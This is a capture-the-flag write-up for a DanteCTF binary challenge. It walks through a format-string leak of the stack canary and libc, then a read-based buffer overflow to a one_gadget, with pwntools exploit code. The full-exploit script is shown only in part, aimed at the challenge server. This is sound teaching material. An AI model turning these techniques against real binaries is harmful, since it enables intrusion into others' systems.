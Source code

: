 First of all, the binary is compiled with full mitagtions. So stack canary is enabled.
Now lets go over the bugs in this program:
1. when creating a new soul, we can make our Month to be whatever we want. (and not just Feb,Jan, etc.)
2. buffer overflow when reading the date from the user.

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/4c8d2643-022b-4624-874e-51d1db183f89)

the `read_string` function is using read to read the input, which doesn't stops at null bytes.
This means an attacker can write a null byte as the twelve byte, and continue writing to the buffer and overwriting the return pointer.

3. The view_soul functionllity has a FSB:
```c
  printf("Soul name: %s\nCircle: %d\nMeeting date: ", (const char *)souls[v1], *(unsigned int *)(souls[v1] + 32LL));
  printf((const char *)(souls[v1] + 36LL));
  ```
  
  it basiclly prints the date varible we can provide, which can give us leaks.
  
  Exploition:
  
  Our idea would be to leak the stack canary and libc using the fsb, and then just a classic one_gadget call.
  
  I saw that the canary is 9 bytes after the addresses given in the fsb, so '%9$p: aaaaa\x00' would be it. (remember we need to make strlen to be 11)
  And by doing the same to the libc, I saw that a libc address is located 15 bytes after.
  Now we basiclly have our leaks:
  
  ```py
leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90
```

Now we just need to use our buffer overflow bug, and jump to our one_gadget!
```
bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
```

I really enjoyed this challenge, cause I really speed ran it :) (got the first blood here aswell)

Full exploit:

```py
from pwn import *

e = ELF('./bin')
#p = gdb.debug('./bin')
p = remote('challs.dantectf.it', 31530)
libc = ELF('libc.so.6')
def insert(pos, name, circle, date):
	p.sendline("1")
	p.recvuntil(': ')
	p.sendline(str(pos))
	p.recvuntil(': ')
	p.sendline(name)
	p.recvuntil(': ')
	p.sendline(str(circle))
	p.recvuntil(': ')
```